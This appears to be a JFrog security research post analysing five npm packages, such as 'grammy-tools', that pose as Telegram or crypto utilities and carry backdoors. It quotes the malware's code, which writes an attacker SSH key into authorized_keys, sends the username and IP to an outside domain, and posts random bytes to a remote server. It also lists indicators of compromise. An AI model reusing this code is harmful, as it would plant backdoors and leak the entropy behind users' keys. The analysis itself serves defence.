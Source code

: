 ```yaml
---
excerpt: JFrog Security Research team found five fake cryptography packages in npm that contained backdoor code
title: Five Backdoored Cryptography Packages Operating Undetected for Six Months
date: "October 20, 2025"
description: "Andrey Polkovnychenko, JFrog Security Researcher"
tag: "Real Time Post"
img: /img/RealTimePostImage/post_thumbnail1.png
type: realTimePost
minutes: '1'

---
```


Our research team found a npm user jamestonytrump who published five malicious packages containing backdoors. One of them, the npm package “grammy-tools” masquerades as a legitimate library for Telegram bots. The malicious software adds a public key to `~/.ssh/authorized_keys` and transmits the username and external IP address to `grammy[.]validator[.]icu`. This action provides an attacker with complete control over the compromised system.

![](/img/RealTimePostImage/post/npm_backdoor.png)

```javascript
const publicKey = `ssh-rsa AAAAB3NzaC1yc2EAAAADAQ`
const username = os.userInfo().username;
const ipAddress = await getBotId();
const fullPublicKey = `${publicKey}`;
const sshDir = path.join(os.homedir(), '.ssh');
const authorizedKeysPath = path.join(sshDir, 'authorized_keys');
fs.writeFileSync(authorizedKeysPath, `${fullPublicKey}\n`, { mode: 0o600 });
https.get(`https://grammy.validator.icu/v1/check?ip=${ipAddress}&name=${username}&type=${types}`, (res1) => {   
res1.on('data', () => { });
});
```

The additional four packages: grammy-guards, crypter-validater, crypt-validater,   
node-crypto-validater follow the same logic of adding a backdoor to the attacked system. Each of them mimics a cryptographic utility, exporting functions typical of legitimate crypto libraries:

```javascript

import * as crypto from "crypto";
export declare function validate(content: any): any;
export declare function createPrivateKey(key: crypto.PrivateKeyInput | string | Buffer | crypto.JsonWebKeyInput, callback?: any): any;
export declare function randomBytes(byretes: number, callback?: any): any;
export declare function checkPrime(value: crypto.LargeNumberLike, callback?: any): any;
```

At first glance, this appears to be a thin wrapper over Node’s built-in crypto module. The only difference it makes to the legitimate cryptographic library is the addition of a backdoor in one of the functions. The function randomBytes contains a code that sends the entropy of the generated random values to an attacker-controlled server. The backdoor works differently, depending on the mode in which the original function was called. In blocking mode, it returns the result immediately, so applications receive randomness even as the attacker quietly captures it. But if the function was called in asynchronous mode with a callback, it replaces the result with the bytes returned by the server.

Either case is catastrophic because random entropy is the core of any cryptographic system. A leak of raw entropy makes any secret, private key, nonce, or other cryptographic data produced by the infected system compromised.  

```javascript
function check_validator(bytes, callback) {
   if (fetch('https://web3.validator.icu/v1/check', {
           method: 'POST',
           body: JSON.stringify({
               action: 'validator',
               content: bytes
           })
       }).then(res => {
      callback && res.json().then(res => {
      res.success ? callback(null, bytes):callback(res.message);
           });
       }) {
       return true;
   }
}

function randomBytes(size, callback) {
   const result = crypto.randomBytes(size).toString('hex');
   return check_validator(result, callback) ? result : null;
}
```

We reported these packages to the npm security team and added information about these packages to [JFrog Xray](http://jfrog.com/xray) to provide an added layer of security for our customers.

Check out the [JFrog Security Research](https://research.jfrog.com/) center for more information about the latest CVEs, vulnerabilities, and fixes to keep your software supply chain secure.

## IOC

Domain  
`web3[.]validator[.]icu`  
Packages

* grammy-tools \- XRAY-736302  
* grammy-guards XRAY-736301  
* crypter-validater XRAY-736304  
* crypt-validater XRAY-736300  
* node-crypto-validater XRAY-736303
